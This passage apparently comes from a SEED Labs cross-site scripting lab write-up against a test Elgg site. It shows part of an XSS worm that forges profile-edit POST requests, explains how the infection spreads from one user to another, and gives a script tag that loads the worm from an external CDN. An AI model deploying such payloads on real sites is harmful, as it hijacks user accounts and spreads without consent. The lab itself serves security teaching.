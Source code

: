 ```
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```
Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.



#Link Approach

Write the JavaScript file xssworm.js and store it in the external link https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js

Add it into Samy's profile:



```<script
  type="text/javascript"
  src="https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js">
</script>```
